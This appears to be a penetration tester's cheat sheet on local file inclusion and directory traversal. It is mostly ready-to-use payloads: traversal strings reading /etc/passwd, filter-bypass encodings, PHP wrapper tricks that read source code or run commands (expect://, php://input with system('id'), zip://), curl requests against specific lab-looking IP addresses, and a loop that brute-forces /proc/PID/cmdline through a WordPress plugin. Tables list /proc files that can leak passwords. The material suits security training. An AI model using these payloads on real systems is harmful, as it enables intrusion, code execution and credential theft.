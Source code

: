 # File Inclusion / Directory Traversal

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[Blog](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/) The Proc File System

[Tool ](https://github.com/D35m0nd142/LFISuite)[secondtool](https://github.com/kurobeats/fimap)

## LFI

```
 file:///../../../etc/passwd
 /etc/passwd on Linux or C:\Windows\boot.ini on Windows
 #if input from parameters used as part of filenames
 we can bypass by adding /../ in the
  
 # if Blacklisting is not coded correctly
 ..././ and ....// would become ../ vice vers sa
 cat .?/.*/.?/etc/passwd.
 Bash allows for for the ? and * wildcards to be used as wildcard
 
 #On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. 
 The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.
```

PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found [here](https://www.php.net/manual/en/wrappers.php.php). The `php://` wrapper is enabled by default and interacts with IO streams.

PHP filter to convert file contents to Base64

```
 php://filter/read=convert.base64-encode/resource=/etc/passwd
 #we can get the source code and decode it
 curl http://134.209.184.216:32391/extension/index.php?language=php://filter/read=convert.base64-encode/resource=config
```



### PHP filter to convert file contents to ROT13

```
php://filter/read=string.rot13/resource=/etc/passwd
```

### Command execution with PHP `Expect` wrapper

```
expect://id
```

#### Using PHP `Input` wrapper for command execution

```
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
```

### Command execution with the PHP `Zip` wrapper

```
zip://malicious.zip%23exec.php&cmd=id
```

## The Proc File System

```
$ for i in `seq 1 10000`; do curl -s --output - http://$RHOST/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline | grep -oaE 'cmdline.*?<script>' | sed "s/cmdline\/proc\/$i\/cmdline\/proc\/$i\/cmdline//" | sed "s/<script>//" | grep -avE '^$'; done
```

| Directory                       | Description                                                                                                                                                                                        |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/sched\_debug              | This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number. |
| /proc/mounts                    | Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located                                                                                  |
| /proc/net/arp                   | Shows the ARP table.  This is one way to find out IP addresses for other internal servers.                                                                                                         |
| /proc/net/route                 | Shows the routing table information.                                                                                                                                                               |
| /proc/net/tcp and /proc/net/udp | Provides a list of active connections.  Can be used to determine what ports are listening on the server                                                                                            |
| /proc/net/fib\_trie             | This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target’s networking structure                                         |
| /proc/version                   | Shows the kernel version.  This can be used to help determine the OS running and the last time it’s been fully updated.                                                                            |



| Directory            | Description                                                                                                                                                                           |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/\[PID]/cmdline | Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.                                 |
| /proc/\[PID]/environ | Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords. |
| /proc/\[PID]/cwd     | Points to the current working directory of the process.  This may be useful if you don’t know the absolute path to a configuration file.                                              |
| /proc/\[PID]/fd/\[#] | Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.                                                       |

